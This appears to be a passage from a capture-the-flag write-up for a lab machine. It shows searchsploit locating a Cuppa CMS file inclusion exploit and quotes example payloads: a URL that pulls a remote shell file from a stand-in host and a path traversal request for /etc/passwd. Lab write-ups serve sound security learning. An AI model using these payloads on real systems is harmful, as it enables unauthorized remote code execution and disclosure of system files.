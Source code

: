 We find another subfolder called administrator, going there we have a Cuppa CMS login:

![skynet-cuppa](/assets/images/2021-02-15-23-12-49.png)

## Cuppa CMS

I tried the same credentials that we used for Miles on SMB but they didn't work. With nothing else obvious to try I look to SearchSploit:

```text
root@kali:/home/kali/thm/skynet# searchsploit cuppa
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion   | php/webapps/25971.txt
------------------------------------------------------------------ ---------------------------------
```

We have a possible exploit, let's look at how it works:

```text
root@kali:/home/kali/thm/skynet# searchsploit -x php/webapps/25971.txt
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
File Type: ASCII text, with very long lines, with CRLF line terminators
```

In there we see:

```text
An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

Examples:
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
